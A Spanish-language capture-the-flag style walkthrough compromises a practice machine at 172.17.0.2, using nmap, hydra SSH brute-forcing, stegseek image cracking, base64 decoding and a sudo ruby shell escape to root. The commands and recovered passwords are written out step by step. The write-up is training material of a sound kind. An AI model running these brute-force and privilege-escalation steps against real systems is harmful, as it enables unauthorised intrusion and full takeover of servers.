Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```


Una vez sabemos que tiene una web corriendo por el puerto 80, veremos que contiene. Para ello abriremos la web en el navegador introduciendo la ip en la barra de navegación.


Si nos fijamos, en el apartado de despido de empleado, vemos que el comunicado lo ha firmado Carlota, desde el departamento de Ciberseguridad. Entonces podemos palntear que Carlota es un posible usuario. Entonces realizaremos un ataque de fuerza bruta al servicio ssh con hydra para obtener la contraseña.
```
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```


Vemos que hemos obtenido la contraseña, entonces entraremos al servidor por ssh.
```
ssh carlota@172.17.0.2
password: babygirl

$ script /dev/null -c bash
```


Una vez estamos dentro vemos que podemos navegar por directorios hasta `/Desktop/fotos$ cd vacaciones/` que nos encontramos con una imagen, entonces la compartimos a nuestra máquina atacante para poder analizarla vía servidor python.
```
-- Máquina víctima:
python3 -m http.server 33

-- Máquina atacante
wget http://172.17.0.2:33/imagen.jpg
```




Una vez descargada, vamos a hacer un ataque de fuerza bruta con la herramienta `stegseek` para ver si tiene algo oculto.
```
stegseek imagen.jpg /usr/share/wordlists/rockyou.txt -xf img
```


Una vez realizado el ataque, vamos a ver el contenido gueardado en el archivo `img`.
```
cat img
```


Por el tipo de caracteres, deducimos que está cifrado en `base64`, entonces lo vamos a decodificar.
```
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d > decript.txt
cat decript
```


Vemos que equivale a una contraseña de un usuario. Tras el `sudo -l` es fallido, ejecutamos el comando `env` para ver las variables de entorno y si nos muestra algo de un usuario.


Vemos que menciona a un usuario, este se llama `Oscar`, así que haremos el cambio de usuario con la contraseña descifrada anteriormente de la foto.
```
su oscar
password: eslacasadepinypon
```


A continuación miraremos los binarios para ver si se puede escalar de usuario con más permisios.
```
sudo -l
```


Finalmente explotaremos este binario y accederemos a administrador.
```
sudo -u root /usr/bin/ruby -e 'exec "/bin/sh"'
```


Con esto ya tenemos control total del servidor.